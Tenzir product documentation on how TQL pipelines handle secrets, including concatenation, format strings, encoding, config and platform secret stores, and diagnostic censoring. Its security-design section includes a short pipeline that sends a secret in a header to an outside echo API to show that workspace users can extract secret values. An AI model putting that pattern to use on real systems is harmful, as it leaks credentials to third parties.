

Operators accept secrets as parameters for sensitive values, such as authentication
tokens, passwords, or even URLs.

:::note[Security Design]
Secrets protect against _accidentally_ compromising the secret value. Assume
that anyone with access to a workspace can obtain the true value.

Read more in the [Security Design](#security-design) section.
:::

## Usage in TQL

You can use secret values only with operators that accept secrets. Operators
generally do not document that they accept a secret, but they will accept
secrets where appropriate.

You have two ways to pass an argument to an operator that expects a secret.
The following examples use the [`to_splunk`](/reference/operators/to_splunk)
operator, which expects a HEC-token for authentication:

- Provide a plain `string` ([Ad-hoc Secret](#ad-hoc-secrets)):

  ```tql
  to_splunk "https://localhost:8088", hec_token="my-plaintext-token"
  ```

  This creates a "secret" containing the string literal `my-plaintext-token`.

- Use the [`secret`](/reference/functions/secret) function ([Managed Secret](#managed-secrets)):

  ```tql
  to_splunk "https://localhost:8088", hec_token=secret("splunk-hec-token")
  ```

  The operator fetches the secret named `splunk-hec-token` to authenticate with
  the Splunk endpoint.

## The `secret` type

Tenzir's [type system](/explanations/language/types) includes secrets as a special
type. You can access secrets only with the [`secret`](/reference/functions/secret)
function.

### Internals

A value of type `secret` contains only the secret's name, not the secret value
itself. When a pipeline operator uses a secret, it resolves the name asynchronously.
For ad-hoc secrets created from a string literal, the name and value of the
secret are identical, so no lookup occurs.

### Supported Operations

#### Concatenation

You can concatenate secrets with other secrets or strings using the `+` operator:

```tql
auth = "Bearer " + secret("my-secret")
url = $base_url + secret("user-name") + ":" + secret("password")
```

#### Format Strings

You can use secrets in [format strings](/explanations/language/expressions#format-strings-f-strings).
Unlike other types, which create strings with values formatted as if using the
`string` function, a format string containing a secret yields a secret.

You can write the above concatenations using format strings:

```tql
auth = f"Bearer {secret("my-secret")}"
url = f"{$base_url}{secret("user-name")}:{secret("password")}"
```

Format strings turn secrets nested in a structured value (`record`, `list`) into
the string `"***"`.

#### Encoding & Decoding

In general, Tenzir does not assume that a secret is valid UTF-8, although most
operators make that constraint. Conversely, some secret stores may require
your secrets to be UTF-8, while some operators expect a binary or otherwise
encoded secret.

To bridge this gap, you can use Tenzir's [encoding](/reference/functions#encoding)
and [decoding](/reference/functions#decoding) functions:

```tql
let $binary_secret = secret("my-encoded-secret").decode_base64()
```

You can also encode (or decode) the result of a concatenation or format string,
which is useful for some APIs:

```tql
let $headers = {
  auth: f"{secret("user")}:{secret("password")}".encode_base64()
}
```

#### Turning Secrets into Strings

You cannot turn a secret into a string. Any such attempt produces the string
`"***"`.

#### Python

Since secrets can be values in a pipeline, you can pass them through the
[`python`](/reference/operators/python) operator. You must not modify a secret
in the `python` operator.

## Ad-hoc Secrets

**Ad-hoc secrets** are secrets implicitly created from a `string` within [TQL](/explanations/language).
This happens when you provide a `string` to an operator that expects a `secret`.

Plain string values are useful when developing pipelines and you don't want to
add the secret to the configuration or a secret store. This approach also works
well for arguments that you don't consider sensitive, avoiding the need to
create a managed secret.

However, secrets created from plain `string`s do not enjoy the same security as
managed secrets. Their value appears directly in the TQL pipeline definition, as
well as in the compiled and executed representation. As such, the Tenzir Node
may persist the value.

## Managed Secrets

Managed secrets are identified by their name and can come from the following
sources, in descending precedence:

1. The environment of the Tenzir Node
2. The configuration of the Tenzir Node
3. The Tenzir Platform secret store for the workspace the Tenzir Node belongs to



Access a managed secret's value with the
[`secret`](/reference/functions/secret) function.

The Tenzir Node looks up the secret's actual value only when an operator requires
it. It first checks the config, with environment variables taking precedence
over configuration file entries. If the secret is not found there, the node
requests it from the Tenzir Platform.

If the value is transferred over any network connection, it is additionally
encrypted using [ECIES](https://en.wikipedia.org/wiki/Integrated_Encryption_Scheme)
with a one-time, per-secret key. The value remains encrypted throughout the
transfer until the final usage site.

A `tenzir` client process can use managed secrets only if it can connect to a
Tenzir Node.

### Configuration Secrets

You can specify secrets in the `tenzir.yaml` config file, under the path
`tenzir.secrets`:

```yaml title="tenzir.yaml"
tenzir:
  secrets:
    # Add your secrets here.
    geheim: 1528F9F3-FAFA-45B4-BC3C-B755D0E0D9C2
```

Since you can set Tenzir's configuration options as environment variables, you
can define secrets in the environment as well. The above secret could be defined
via the environment variable `TENZIR_SECRETS__GEHEIM`. An environment variable
takes precedence over an equivalent key in the configuration file.

See the [configuration reference](/reference/node/configuration) for more details.

Tenzir hides the `tenzir.secrets` section from the [`config()`](/reference/functions/config)
function.

### Platform Secrets

The Tenzir Platform stores a separate set of secrets for every workspace. All
Tenzir Nodes connected to that workspace can access these secrets.

See the [platform secret store configuration guide](/guides/platform-setup/configure-secret-store#configuring-the-platform-secret-store).

#### External Secret Stores

You can configure the Tenzir Platform to provide access to secrets stored in an
external secret store instead of using its own store. This access is read-only.

See the [external secret store configuration guide](/guides/platform-setup/configure-secret-store#configuring-external-secret-stores).

## Legacy Model

You can use the configuration option `tenzir.legacy-secret-model` to change the
behavior of the `secret` function so that it returns a `string` instead of a `secret`.

When you use the legacy model, you can only use secrets from the Tenzir Node's
configuration. You cannot use secrets from the Tenzir Platform's secret store.

Enabling this option is not recommended. It exists as a transition mechanism and
will be deprecated and removed in a future version.

## Security Design

Secrets protect against _accidentally_ compromising the secret value by
revealing it in a log file, showing it in a UI element, or committing it to a
code repository as part of a pipeline.

However, anyone with access to a workspace can access secret values if
sufficiently motivated.

For example, you could use a simple HTTP API that echoes requests to extract
secret values:

```tql
from_http "echo.api.com",
  headers = { leaked: secret("key") },
  metadata_field=metadata
select metadata.headers.leaked
```

```tql
{ leaked: "secret-value" }
```

### Secrets in Diagnostics

Tenzir takes care not to leak managed secrets in diagnostic messages. However,
many integrations rely on third-party libraries. Those libraries may produce
error messages outside of Tenzir's control that get forwarded to help you
understand an issue.

As a remedy, an operator censors the values of managed secrets it has used in
all diagnostics. Only the full value is censored, not parts of it. This means
that a third-party diagnostic forwarded to you may still contain part of a
secret value.

:::tip[Use smaller secrets]
Keep your managed secrets to the logical unit that is a secret, and use multiple
secrets instead of one big one.

For example, an S3 URI may contain multiple keys that should be kept as separate
secrets, instead of a single one:

```tql
let $url = f"s3://{secret("access-key")}:{secret("secret-key")}@bucket/path/to/file"
```

:::
